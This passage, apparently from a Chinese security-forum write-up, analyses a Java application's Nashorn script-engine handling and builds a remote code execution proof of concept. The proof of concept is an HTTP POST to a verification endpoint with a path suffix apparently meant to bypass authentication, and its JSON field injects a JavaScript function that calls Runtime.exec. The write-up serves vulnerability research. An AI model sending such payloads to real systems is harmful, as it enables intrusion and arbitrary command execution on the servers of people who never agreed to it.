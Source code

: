 ```java
import javax.script.*;

public class InvokeScriptFunction {
    public static void main(String[] args) throws Exception {
        ScriptEngineManager manager = new ScriptEngineManager();
        ScriptEngine engine = manager.getEngineByName("nashorn");

        // evaluate JavaScript code that defines a function with one parameter
        engine.eval("function hello(name) { print('Hello, ' + name) }");

        // create an Invocable object by casting the script engine object
        Invocable inv = (Invocable) engine;

        // invoke the function named "hello" with "Scripting!" as the argument
        inv.invokeFunction("hello", "Scripting!");
    }
}
```

所以我们可以照着示例里的样子构造一个函数，内容是`java.lang.Runtime.getRuntime().exec`之类的来执行命令，而且因为invokeFunction那里写死的是verification，所以我们构造的函数名也得是verification

```http
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 127.0.0.1:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 406

{"sampleItem":"1","validationRules":"function verification(){\nvar x=java.lang.Runtime.getRuntime().exec(\"calc\")\n}"}

```

执行成功

![image-20241020113518656](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-4b45c9709fc8e7b3263b0f2e2550c551f14e9577.png)

调试的时候发现一直是到这里才执行了`calc`命令，所以我们上面对于eval起到了一个类似于声明定义一个脚本的作用，最后通过Invocable接口的invokeFunction来调用这个脚本中的函数的分析没啥问题

![image-20241020112832037](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-54471da75d188c2cf9f1e13413b99b5e1a60bc5d.png)

在调试中发现一个奇怪的现象，不管我方法名随便怎么写都正常执行了，跟之前“invocable.invokeFunction调用的函数名得是engine.eval的定义的函数”的说法不一样，但是本地自己写个简单demo结果就没问题

![image-20241020114335158](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-d297722267f474b5636efce8335b2f6a3f980d2e.png)
